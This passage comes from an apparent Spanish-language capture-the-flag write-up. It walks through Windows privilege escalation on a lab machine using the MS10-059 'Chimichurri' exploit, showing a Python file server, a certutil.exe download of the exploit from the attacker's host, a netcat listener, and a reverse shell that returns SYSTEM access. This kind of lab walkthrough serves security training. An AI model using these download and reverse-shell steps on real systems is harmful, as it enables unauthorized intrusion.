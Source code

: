 Una vez descargado, lo pasamos a nuestro directorio de trabajo y lo vamos a subir a la máquina para activarlo, vámonos por pasos:

* Abrimos un servidor con **Python**:
```bash
python3 -m http.server                                                                     
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

* Nos vamos a la carpeta **Temp** y creamos la carpeta **Privesc** para guardar ahí el Exploit:
```batch
c:\>cd Windows/Temp
cd Windows/Temp
c:\Windows\Temp>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 5C03-76A8
 Directory of c:\Windows\Temp
c:\Windows\Temp>mkdir Privesc
mkdir Privesc
c:\Windows\Temp>cd Privesc
cd Privesc
```

* Descargamos el Exploit desde la máquina usando **certutil.exe**:
```batch
c:\Windows\Temp\Privesc>certutil.exe -urlcache -split -f http://Tu_IP:8000/MS10-059.exe MS10-059.exe
certutil.exe -urlcache -split -f http://Tu_IP:8000/MS10-059.exe MS10-059.exe
****  Online  ****
  000000  ...
  0bf800
CertUtil: -URLCache command completed successfully.
```

* Levantamos una netcat:
```bash
nc -nvlp 1337     
listening on [any] 1337 ...
```

* Activamos el exploit:
```batch
c:\Windows\Temp\Privesc>MS10-059.exe Tu_IP 1337
MS10-059.exe Tu_IP 1337
/Chimichurri/-->This exploit gives you a Local System shell <BR>/Chimichurri/-->Changing registry values...<BR>/Chimichurri/-->Got SYSTEM token...<BR>/Chimichurri/-->Running reverse shell...<BR>/Chimichurri/-->Restoring default registry values...<BR>
```

* ¡Y listo!, ya solamente buscamos la flag en el directorio **Administrator** y listo:
```bash
nc -nvlp 1337     
listening on [any] 1337 ...
connect to [Tu_IP] from (UNKNOWN) [10.10.10.11] 49790
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
c:\Windows\Temp\Privesc>whoami
whoami
nt authority\system
```
